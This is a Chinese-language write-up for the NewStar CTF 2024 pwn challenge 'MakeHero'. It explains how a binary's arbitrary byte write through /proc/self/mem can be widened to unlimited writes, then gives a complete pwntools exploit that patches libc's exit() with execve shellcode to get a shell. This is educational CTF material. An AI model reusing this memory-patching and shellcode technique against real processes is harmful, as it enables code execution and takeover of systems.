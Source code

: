 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# MakeHero

## 逆向分析

固定步骤，拖入 IDA 分析

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  unsigned __int8 v4; // [rsp+3h] [rbp-8Dh] BYREF
  int v5; // [rsp+4h] [rbp-8Ch]
  unsigned __int64 v6; // [rsp+8h] [rbp-88h] BYREF
  char v7[120]; // [rsp+10h] [rbp-80h] BYREF
  unsigned __int64 v8; // [rsp+88h] [rbp-8h]

  v8 = __readfsqword(0x28u);
  sub_1430(a1, a2, a3);
  v5 = 2;
  puts("Welcome to NewStarCTF week4!");
  puts(aEek4);
  printf(asc_20F8);
  __isoc99_scanf("%100s", v7);
  printf(aS, v7);
  puts(asc_2158);
  while ( 1 )
  {
    if ( !v5-- )
    {
      puts(asc_2270);
      sleep(3u);
      printf(asc_22B1, v7);
      exit(0);
    }
    printf(asc_217F);
    puts(asc_2198);
    if ( (unsigned int)__isoc99_scanf("%lx %hhx", &v6, &v4) != 2 )
    {
      puts(asc_2208);
      puts(asc_2233);
      exit(-1);
    }
    if ( v5 == 1 )
    {
      if ( v6 < qword_4060 || v6 >= qword_4068 )
        goto LABEL_7;
LABEL_11:
      sub_1369(v6, v4);
    }
    else
    {
      if ( v6 >= qword_4050 && v6 < qword_4058 )
        goto LABEL_11;
LABEL_7:
      puts(aOhNo);
    }
  }
}
```

```c
int __fastcall sub_1369(__off_t a1, char a2)
{
  char buf[4]; // [rsp+4h] [rbp-1Ch] BYREF
  __off_t offset; // [rsp+8h] [rbp-18h]
  int fd; // [rsp+1Ch] [rbp-4h]

  offset = a1;
  buf[0] = a2;
  fd = open("/proc/self/mem", 2);
  if ( fd == -1 )
  {
    perror("open /proc/self/mem");
    exit(1);
  }
  if ( lseek(fd, offset, 0) == -1 )
  {
    perror("lseek");
    close(fd);
    exit(1);
  }
  if ( write(fd, buf, 1uLL) != 1 )
    perror("write");
  return close(fd);
}
```

可知，程序实现了通过 `/proc/self/mem` 实现了任意地址的改写

:::tip
程序是通过 `open("/proc/self/mem")` 的方式实现改写，因此无视各地址段的读写权限
:::

![读入](/assets/images/wp/2024/week4/makehero_1.png)

程序读入两个数字，`%lx` 是地址，`%hhx` 是要改的字节

![限制输入范围](/assets/images/wp/2024/week4/makehero_2.png)

其中，程序对 `v6` 的取值做了限制

在 `sub_1430` 函数中，对这几个全局变量做了初始化

![全局变量初始化](/assets/images/wp/2024/week4/makehero_3.png)

结合 gdb 动调时的地址分布，我们可知，`qword_4060` 和 `qword_4068` 是程序 ELF `的地址，qword_4050` 和 `qword_4058` 是程序 libc 的地址

## Pwn it

程序能任意写两次，第一次能改写 ELF，第二次能改写 libc，仅有的两次机会是不足以让我们拿到 flag 的，我们需要通过仅有的两次机会来让我们获得「无限次」的机会

分析发现，程序的退出点在这里

![程序的退出点](/assets/images/wp/2024/week4/makehero_4.png)

因此我们能否通过修改跳转条件或是其他，来让程序不执行退出呢

![修改跳转条件](/assets/images/wp/2024/week4/makehero_5.png)

我们或许可以通过改 jnz 为其他条件跳转来实现一直执行，也可以让 `v5--` 变为 `v5++` 来实现「无限次」任意写

![修改v5](/assets/images/wp/2024/week4/makehero_6.png)

在这，我选择修改 `--` 为 `++` ，就是将 `8D 50 FF` 改为 `8D 50 01`

![修改v5](/assets/images/wp/2024/week4/makehero_7.png)

改完后，我们能一直任意写，剩下的就很多种解法了

我选择将exit处代码改为shellcode，getshell

```python
#!/usr/bin/env python3
from pwn import *

context(log_level='debug', arch='amd64', os='linux')
context.terminal = ["tmux", "splitw", "-h"]
uu64 = lambda x: u64(x.ljust(8, b'\x00'))
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
r = lambda x: p.recv(x)
ru = lambda x: p.recvuntil(x)

p = process('./MakeHero')
libc = ELF("./libc.so.6")

def u8_ex(data) -> int:
    assert isinstance(data, (str, bytes)), "wrong data type!"
    length = len(data)
    assert length <= 1, "len(data) > 1!"
    if isinstance(data, str):
        data = data.encode('latin-1')
    data = data.ljust(1, b"\x00")
    return unpack(data, 8)

def write_mem(addr, byte):
    if isinstance(byte, bytes):
        sla(b'\x89\xef\xbc\x81', hex(addr) + ' ' + hex(u8_ex(byte)))
    elif isinstance(byte, int):
        sla(b'\x89\xef\xbc\x81', hex(addr) + ' ' + hex(byte))

def write_code(addr, code):
    for i in range(len(code)):
        write_mem(addr + i, code[i])

ru(b'** ')
code_base = int(p.recvuntil(b' -', drop=True), 16)

ru(b'## ')
libc_base = int(p.recvuntil(b' -', drop=True), 16)

sl(b'inkey')

write_mem(code_base + 0x1877, 0x1)
write_mem(libc_base + libc.sym.exit + 4, b'\x90')
write_mem(code_base + 0x1877, 0x1)
write_code(libc_base + libc.sym.exit + 5, b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05")
sl(b'bye')

p.interactive()
```

这题既能改elf，也能改libc，应该会有很多不一样的解法吧（
